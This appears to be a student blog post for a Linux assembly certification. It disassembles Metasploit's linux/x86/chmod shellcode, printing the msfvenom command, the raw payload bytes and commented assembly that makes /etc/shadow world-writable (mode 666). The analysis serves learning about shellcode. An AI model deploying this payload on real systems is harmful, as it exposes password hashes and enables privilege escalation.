



This is an analysis of Metasploit's linux/x86/chmod shellcode, generated using the following command:
msfvenom -f c -p linux/x86/chmodThis command generated the following shellcode:
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"
It is possible to convert this shellcode to readable i86 assembly through use of the
ndisasm utility (output truncated):
While in a previous post I broke up Metasploit's TCP Bind shellcode into a series of code blocks, this shellcode is far more simple. I opted instead to leave it in its full form. I have added pseudocode comments that briefly explain the assembly code.
00000000 99 cdq
00000001 6A0F push byte +0xf ; stack = [15]
00000003 58 pop eax ; eax = 15 (chmod) stack = []
00000004 52 push edx ; stack = [0]
00000005 E80C000000 call 0x16 ; jump over this inline string
0000000A 2F das ; /
0000000B 657463 gs jz 0x71 ; etc
0000000E 2F das ; /
0000000F 7368 jnc 0x79 ; sh
00000011 61 popa ; a
00000012 646F fs outsd ; do
00000014 7700 ja 0x16 ; w\0
00000016 5B pop ebx ; ebx = address_of_file; stack = []
00000017 68B6010000 push dword 0x1b6 ; stack = [oct 666]
0000001C 59 pop ecx ; ecx = oct 666 stack = []
0000001D CD80 int 0x80 ; invoke chmod
0000001F 6A01 push byte +0x1 ; stack = [1]
00000021 58 pop eax ; eax = 1
00000022 CD80 int 0x80 ; invoke exit() syscallThis shellcode loads the Linux system call number 15 into EAX, indicating that it will call the
chmod function (as you'd expect).
Most prominent in the shellcode is an inline string that represents the path to the file chmod will be called on. As you can see above, ndisasm interprets these bytes as instructions, but they actually form the string "/etc/shadow". When the
call instruction at address 0005 is executed, the address of this string is pushed onto the stack and the flow of control will be directed to address 0016.
The shellcode then saves the address of the string in EBX, satisfying the "pathname" parameter shown in the function declaration above. Then ECX is loaded with the hex equivalent of octal 666, satisfying the "mode" parameter. The chmod system call is then invoked through the use of an interrupt.
Finally, the shellcode invokes the
exit system call to end the current process.
---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
Student ID: SLAE - 1353